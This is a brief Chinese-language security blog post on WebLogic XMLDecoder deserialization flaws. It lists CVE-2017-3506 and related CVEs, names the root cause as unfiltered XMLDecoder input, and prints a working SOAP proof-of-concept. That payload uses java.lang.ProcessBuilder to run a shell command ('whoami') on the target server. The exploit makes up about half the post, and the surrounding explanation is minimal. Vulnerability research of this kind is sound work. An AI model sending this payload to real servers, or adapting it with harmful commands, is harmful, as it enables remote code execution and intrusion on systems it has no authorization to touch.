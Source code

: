 ```yaml
---
layout:     post
title:      "weblogic xmlDecoder反序列化"
subtitle:   ""
date:       2020-09-09 12:00:00
author:     "seal"
header-img: "img/post-bg-infinity.jpg"
tags:
    - web安全
    - weblogic
    - java
    - 反序列化
typora-root-url: ../../luckseal.github.io
---
```


#### weblogic XMLDecoder 反序列化漏洞
CVE-2017-3506
CVE-2017-10271
CVE-2017-10352
CVE-2019-2725
CVE-2019-2729
#### CVE-2017-3506
##### 漏洞原因
反序列化数据可控，且对数据未进行任何过滤处理
```
public WorkContextXmlInputAdapter(InputStream var1){
    this.xmlDecoder = new XMLDecoder(var1);
}
```
##### poc
```
    <soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
      <soapenv:Header>
        <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
          <java>
            <object class="java.lang.ProcessBuilder">
              <array class="java.lang.String" length="3">
                <void index="0">
                  <string>/bin/bash</string>
                </void>
                <void index="1">
                  <string>-c</string>
                </void>
                <void index="2">
                  <string>whoami</string>
                </void>
              </array>
              <void method="start"/>
            </object>
          </java>
        </work:WorkContext>
      </soapenv:Header>
      <soapenv:Body/>
    </soapenv:Envelope>
```
